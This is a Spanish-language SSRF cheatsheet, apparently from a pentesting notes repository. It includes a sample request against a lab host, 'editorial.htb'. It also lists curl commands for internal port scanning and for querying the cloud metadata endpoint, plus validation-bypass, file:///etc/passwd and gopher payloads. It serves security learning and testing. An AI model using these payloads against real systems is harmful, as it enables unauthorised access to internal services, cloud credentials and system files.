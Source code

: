 # Server Side Request Forgery (SSRF)

## ¿Qué es SSRF?

La vulnerabilidad **Server Side Request Forgery (SSRF)** ocurre cuando un atacante puede manipular un servidor para que realice solicitudes HTTP a recursos internos o externos que normalmente no serían accesibles para el atacante.

## Impacto

Un ataque SSRF puede permitir:
- Acceder a recursos internos de la red, como bases de datos o servicios internos.
- Filtrar información sensible.
- Realizar ataques adicionales, como escaneo de puertos internos o explotación de servicios vulnerables.

## Ejemplo

```
POST /upload-cover HTTP/1.1

Host: editorial.htb

Content-Length: 307

Accept-Language: en-US,en;q=0.9

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQ7BYZLc1jmNjS53B

Accept: */*

Origin: http://editorial.htb

Referer: http://editorial.htb/upload

Accept-Encoding: gzip, deflate, br

Connection: keep-alive



------WebKitFormBoundaryQ7BYZLc1jmNjS53B

Content-Disposition: form-data; name="bookurl"



http://127.0.0.1:5000

------WebKitFormBoundaryQ7BYZLc1jmNjS53B

Content-Disposition: form-data; name="bookfile"; filename=""

Content-Type: application/octet-stream





------WebKitFormBoundaryQ7BYZLc1jmNjS53B--

```

- En este ejemplo se envía una solicitud POST a `editorial.htb` con un archivo de libro y una URL de imagen.
- en el puerto 5000 hay un servicio vulnerable que puede ser explotado.
## SSRF Cheatsheet Ayudas

### Comandos útiles para pruebas SSRF
- **Comprobar acceso a recursos internos:**
    ```bash
    curl -X POST -d "bookurl=http://127.0.0.1:80" http://target.com/upload
    ```
- **Escaneo de puertos internos:**
    ```bash
    for port in {1..65535}; do curl -s -o /dev/null -w "%{http_code} - Port $port\n" http://127.0.0.1:$port; done
    ```
- **Probar acceso a metadatos en servicios cloud:**
    ```bash
    curl http://169.254.169.254/latest/meta-data/
    ```

### Herramientas útiles
- **Burp Suite**: Configura un payload SSRF en el repeater para probar diferentes endpoints.
- **SSRFmap**: Automatiza la explotación de SSRF.
    ```bash
    python3 ssrfmap.py -u "http://target.com/upload?url=xxURLxx" -p xxURLxx
    ```
- **HTTPie**: Alternativa a `curl` para pruebas HTTP.
    ```bash
    http POST http://target.com/upload bookurl=http://127.0.0.1:80
    ```

### Payloads comunes
- **Acceso a localhost:**
    ```
    http://127.0.0.1:80
    ```
- **Bypass de validaciones:**
    ```
    http://127.0.0.1#target.com
    http://127.0.0.1@target.com
    ```
- **Probar diferentes protocolos:**
    ```
    file:///etc/passwd
    gopher://127.0.0.1:11211/_stats
    ```

### Recursos adicionales
- [PayloadsAllTheThings SSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
- [OWASP SSRF Guide](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery)


## SSRF Cheatsheet ayudas